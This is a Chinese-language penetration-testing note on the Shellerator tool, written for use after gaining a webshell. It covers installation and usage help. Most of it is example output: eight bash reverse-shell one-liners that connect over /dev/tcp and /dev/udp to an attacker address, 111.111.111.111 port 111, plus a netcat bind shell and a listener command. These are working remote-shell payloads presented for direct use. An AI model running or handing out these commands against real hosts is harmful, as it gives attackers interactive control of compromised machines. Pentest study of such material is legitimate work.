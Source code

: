 ```yaml
---
layer: article
title: Reverse/Bind Shells
tags: tools,pentest
---
```


在日常的渗透测试过程中，获得了webshell后往往会反弹shell，这里整理了几个工具。

涉及举例：

本地攻击机IP为`111.111.111.111` ，若反向连接时监听端口`111`

被攻击靶机IP为`192.168.1.1`，若正向连接时监听端口`888`

# [Shellerator](https://github.com/ShutdownRepo/shellerator)

## 安装

Kali Linux上需要单独安装Shellerator，安装完成后通过执行python文件或者`~/.local/bin/shellerator` 均可，如需也可以`sudo cp ~/.local/bin/shellerator /usr/sbin`方便快速执行。

```bash
$ git clone https://github.com/ShutdownRepo/shellerator
$ cd shellerator
$ python3 setup.py install --user
$ python shellerator.py -l
Reverse shells
   - awk
   - bash
   - groovy
   - java
   - lua
   - meterpreter
   - ncat
   - netcat
   - nodejs
   - openssl
   - perl
   - php
   - powershell
   - python
   - ruby
   - socat
   - tclsh
   - telnet
   - war

Bind shells
   - netcat

```

## 使用

```bash
usage: shellerator.py [-h] [-b | -r] [-t TYPE] [-p LPORT] [-i LHOST]

Generate a bind/reverse shell

optional arguments:
  -h, --help              show this help message and exit
  -l, --list            Print all the types of shells shellerator can generate
  -b, --bind-shell        Generate a bind shell (you connect to the target)
  -r, --reverse-shell     Generate a reverse shell (the target connects to you)(Default)

Bind shell options:
  -t TYPE, --type TYPE    Type of the shell to generate (Bash, Powershell, Java...)
  -p LPORT, --port LPORT  Listener Port

Reverse shell options:
  -t TYPE, --type TYPE    Type of the shell to generate (Bash, Powershell, Java...)
  -i LHOST, --ip LHOST    Listener IP address
  -p LPORT, --port LPORT  Listener Port
```

## 实例

- 生成bash脚本，在被攻击靶机上执行，反弹shell到攻击机的`111`端口

```bash
$ python shellerator.py -r -lp 111 -t bash 
(custom) Listener interface/address?
> 111.111.111.111

[1] /bin/bash -c '/bin/bash -i >& /dev/tcp/111.111.111.111/111 0>&1'

[2] /bin/bash -c '/bin/bash -i > /dev/tcp/111.111.111.111/111 0<&1 2>&1'

[3] /bin/bash -i > /dev/tcp/111.111.111.111/111 0<& 2>&1

[4] bash -i >& /dev/tcp/111.111.111.111/111 0>&1

[5] exec 5<>/dev/tcp/111.111.111.111/111;cat <&5 | while read line; do $line 2>&5 >&5; done

[6] exec /bin/sh 0</dev/tcp/111.111.111.111/111 1>&0 2>&0

[7] 0<&196;exec 196<>/dev/tcp/111.111.111.111/111; sh <&196 >&196 2>&196

[8] UDP bash -i >& /dev/udp/111.111.111.111/111 0>&1

[9] UDP Listener (attacker) nc -u -lvp 111

CLI command used
shellerator.py --reverse-shell --type bash --lhost 111.111.111.111 --lport 111

```

- 生成`nc`命令，在被攻击靶机上执行，开启`888`端口

```bash
$ python shellerator.py -b  
(custom) Listener port?
> 888

[1] nc -lvp 888 -e /bin/sh

CLI command used
shellerator.py --bind-shell --type netcat --lport 888
```

